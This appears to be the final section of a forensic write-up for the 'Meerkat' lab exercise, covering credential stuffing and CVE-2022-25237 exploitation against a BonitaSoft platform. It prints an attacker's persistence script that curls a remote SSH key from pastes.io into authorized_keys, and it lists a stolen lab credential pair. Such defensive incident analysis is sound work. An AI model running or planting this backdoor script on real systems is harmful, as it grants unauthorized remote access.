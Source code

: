 ### 12.2 Timeline Analysis Summary

```
15:29:30 - PCAP capture begins
15:31:11 - First HTTP request from 156.146.62.213
15:31:27 - Credential stuffing attack begins (112 attempts)
15:35:04 - Successful authentication (seb.broom@forela.co.uk:g0vernm3nt)
15:35:04 - CVE-2022-25237 exploitation begins
15:35:05 - RCE extension deployed and tested
15:37:38 - First attack phase concludes
15:38:35 - Second attack phase begins (138.199.59.221)
15:38:46 - System reconnaissance (/etc/passwd)
15:38:52 - Malicious payload download (pastes.io)
15:39:18 - SSH persistence establishment
15:39:19 - Second attack phase concludes
15:40:12 - SSH backdoor access (95.181.232.30)
15:45:27 - PCAP capture ends
```

### 12.3 File Hash Analysis

**Malicious Extension (rce_api_extension.zip):**
* **Size:** 15,163 bytes
* **Upload Time:** 2023-01-19 15:35:04
* **Server Filename:** tmp_14830419339383496080.zip
* **API Extension ID:** 130
* **URL Token:** custompage_resourceNameRestAPI

**Persistence Script (bx5gcr0et8):**
```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

**SSH Public Key (hffgra4unv):**
* **Type:** RSA 2048-bit
* **Format:** OpenSSH public key format
* **Fingerprint:** [Not calculable from provided data]

---

✅ **Conclusion:**

The Meerkat incident represents a sophisticated, multi-stage cyberattack that successfully compromised Forela's BonitaSoft business management platform through a combination of credential stuffing, CVE exploitation, and advanced persistence techniques. The attack demonstrates the critical importance of comprehensive security controls including patch management, strong authentication mechanisms, and behavioral monitoring.

The 16-minute operational window from initial credential stuffing to persistent backdoor establishment highlights the speed and efficiency of modern attack methodologies. The threat actors' use of legitimate file-sharing services and systematic operational security measures indicates a high level of sophistication and planning.
